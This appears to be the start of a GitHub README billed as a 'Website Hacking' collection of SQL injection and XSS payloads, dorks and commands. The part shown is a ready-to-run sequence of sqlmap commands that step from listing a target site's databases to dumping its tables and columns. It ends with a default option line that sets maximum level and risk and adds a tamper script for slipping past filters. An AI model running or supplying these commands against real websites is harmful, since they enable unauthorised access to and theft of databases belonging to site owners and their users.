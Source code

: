 # SQL Injection, Cross-Site Scripting, Payloads, Dorks, Commands & Lists []  Website Hacking © 2020 - 2022 Collections ![Twitter URL](https://img.shields.io/twitter/url?label=Twitter&style=social&url=https%3A%2F%2Ftwitter%2Fxetaguridimitri)

# Default SQL Injection Commands

sqlmap -u 'Website' --dbs

sqlmap -u 'Website' -D name.db --tables

sqlmap -u 'Website' -D name.db -T name.tables --columns

sqlmap -u 'Website' -D name.db -T name.tables -C name.columns

Default CMD | --random-agent --level=5 --risk=3 --tamper=space2comment --anwser="follow" --batch --threads=10 --beep

<p align="center"><img src="https://img.shields.io/badge/SQL-Injection-critical"></p>
